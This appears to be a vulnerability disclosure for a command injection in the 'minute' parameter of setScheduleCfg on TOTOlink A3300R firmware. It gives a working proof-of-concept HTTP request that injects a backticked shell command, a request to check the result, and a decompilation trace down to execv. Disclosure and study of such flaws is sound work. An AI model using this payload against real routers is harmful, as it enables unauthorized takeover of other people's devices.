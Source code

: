 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setScheduleCfg` request,`minute` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=AEAF12ADD613E086 HTTP/1.1
Host: itotolink.net
Content-Length: 107
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"mode":"1","hour":"1","minute":"14`ls>/web/345.txt`","week":"64","recHour":"","topicurl":"setScheduleCfg"}
```

injection the command "ls>/web/345.txt"

![image-20240109131637580](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131637580.png)

check the result.

```
GET /345.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109131644895](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131644895.png)

## Analysis

sub_414614 will handle the `setScheduleCfg` request. sub_414614 get `minute` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109131808344](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131808344.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131330610.png)

